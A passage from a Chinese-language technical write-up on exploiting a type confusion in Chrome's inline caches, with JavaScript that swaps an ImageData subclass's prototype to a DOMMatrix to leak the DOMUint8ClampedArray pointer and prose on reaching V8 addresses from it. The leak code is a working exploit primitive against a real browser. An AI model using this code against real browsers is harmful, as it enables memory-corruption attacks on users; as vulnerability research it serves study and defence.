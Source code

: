 ```js
19.  m33: 33
20.  m34: 34
21.  m41: 41
22.  m42: 42
23.  m43: 43
24.  m44: 44
25.  [[Prototype]]: DOMMatrix
```

我们通过访问其中的某个属性来构造内联缓存，然后就能指定从某个具有相似结构的对象的相同偏移处读取数据了：

```js
    loopCount=20;
    class SubImg extends ImageData {
      constructor(imgData) {
        super(imgData, height,width);
      }
      getAddr() {
        return super.m21;//<----类型混淆读取非法数据
      }
    }
    var imgDataStore = new ArrayBuffer(48);
    var imgData = new Uint8ClampedArray(imgDataStore);
    var img = new SubImg(imgData);
    var matrixInput = [11,12,13,14,21,22,23,24,31,32,33,34,41,42,43,44];
    var domMatrixImg = new DOMMatrix(matrixInput);
    function leakImageAddr(i) {
      domMatrixImg['a' + i] = 1;
      if (i < loopCount) {
        SubImg.prototype.__proto__ = {};
      } else {
        SubImg.prototype.__proto__ = domMatrixImg;
      }
      domMatrixImg.m21;//<----创建处理程序
      let addr = img.getAddr();
      return Number(ftoi(addr));
    }
    
    for (let i = 0; i < loopCount; i++) {
      leakImageAddr(i);
    }
    let imgAddr = leakImageAddr(loopCount);
```

`ImageData` 中有一个名为 `data_u8_` 的属性，而该属性用于储存 `DOMUint8ClampedArray` 的指针，其偏移与 `ImageData.m21` 相同。因此，通过类型混淆，我们能够泄漏出  `DOMUint8ClampedArray` 的指针。

> `ImageData` 的构造函数需要提供 `Uint8ClampedArray` 对象，该对象将成为 `DOMUint8ClampedArray` 。

而 `DOMUint8ClampedArray` 是 V8 中 `Uint8ClampedArray` 的 Blink 表示，它是一个包含 `main_world_wrapper_` 字段的 `ScriptWrappable` 对象，可以用来检索 V8 中 `Uint8ClampedArray` 的地址。

那么就可以从 `ImageData.m21` 的类型混淆获取到 Blink 的内存地址，而再通过 Blink 中的 `DOMUint8ClampedArray` 对象的 `main_world_wrapper_` 再读出 V8 所属的内存地址。
